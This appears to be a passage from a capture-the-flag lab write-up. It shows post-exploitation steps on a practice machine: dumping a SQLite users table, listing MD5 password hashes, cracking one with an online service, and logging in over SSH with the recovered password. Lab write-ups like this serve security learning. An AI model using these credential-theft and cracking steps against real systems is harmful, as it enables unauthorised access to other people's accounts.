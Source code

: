 In this way we got a reverse shell to the target machine as `app` user.



### User Privilege Escalation

Once inside, search the local db used by application for discover credentials.

```bash
cd /home/app/app/instance/
sqlite3 users.db
```

Then get all from the users table.

```sql
SELECT * FROM user;
```

From there we can extract 2 credentials; for the app user and for marco's user

```
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
```

Using CrackStation we crack the marco passwrd:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
marco:sweetangelbabylove
```

Using the SSH open port try to connect to the target machine as marco

```bash
ssh marco@10.10.11.82
> sweetangelbabylove
```
